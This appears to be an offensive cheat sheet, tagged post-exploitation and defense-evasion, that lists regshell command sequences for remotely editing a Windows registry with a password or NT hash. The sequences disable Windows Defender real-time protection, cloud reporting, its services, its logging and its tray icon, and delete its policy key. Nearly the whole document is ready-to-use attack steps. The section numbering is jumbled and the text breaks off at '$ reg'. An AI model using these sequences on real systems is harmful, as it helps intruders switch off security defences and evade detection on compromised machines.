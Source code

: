 # Unix Shell

Search Tag(s): #post-exploitation #defense-evasion #staying-off-the-land #windows

## 00 - Registry

### 00.1 - Regshell

#### 00.1.1 - Disable Windows Defender

##### 00.1.1.1 - Disable Real Time Protection

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

\> ck HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender
set AllowFastServiceStartup REG_DWORD 0
set ServiceKeepAlive REG_DWORD 0
set DisableRealtimeMonitoring REG_DWORD 1
mkkey "Real-Time Protection"
ck "Real-Time Protection"
set DisableRealtimeMonitoring REG_DWORD 1
set DisableIOAVProtection REG_DWORD 1
set DisableOnAccessProtection REG_DWORD 1
set DisableScanOnRealtimeEnable REG_DWORD 1
set DisableBehaviorMonitoring REG_DWORD 1
ck ..
mkkey Spynet
ck Spynet
set DisableBlockAtFirstSeen REG_DWORD 1
set LocalSettingOverrideSpynetReporting REG_DWORD 0
set SubmitSamplesConsent REG_DWORD 2
set SpynetReporting REG_DWORD 2
ck ..
mkkey MpEngine
ck MpEngine
set MpCloudBlockLevel REG_DWORD 2
ck HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
set Start REG_DWORD 4
```

Delete the whole registry

```
\> rmkey "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender"
```

#### 1.6.1.2 - Disable Windows Defender Services

##### 1.3.1.2.3 - Regshell

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

\> predef HKEY_LOCAL_MACHINE
ck SYSTEM\CurrentControlSet\Services\WdBoot
set Start REG_DWORD 4
ck ..\WdFilter
set Start REG_DWORD 4
ck ..\WdNisDrv
set Start REG_DWORD 4
ck ..\WdNisSvc
set Start REG_DWORD 4
ck ..\WinDefend
set Start REG_DWORD 4
ck ..\SecurityHealthService
set Start REG_DWORD 4
ck HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
set Start REG_DWORD 0
```

#### 1.6.1.3 - Disable Logging

##### 1.3.1.3.2 - Regshell

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

\> predef HKEY_LOCAL_MACHINE
ck System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger
set Start REG_DWORD 0
ck ..\DefenderAuditLogger
set Start REG_DWORD 0
```

#### 1.6.1.4 - Disable Systray Icon

##### 1.3.1.4.2 - Regshell

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

\> ck HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
rmval "Windows Defender"
ck HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
rmval WindowsDefender
ck HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
rmval "Windows Defender"
```

### 1.6.2 - Disable Windows Defender Security Center

#### 1.3.2.2 - Regshell

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

\> ck HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\SecurityHealthService
set Start REG_DWORD 4
```

### 1.6.3 - Remove Windows Defender Context Menu

`$ reg`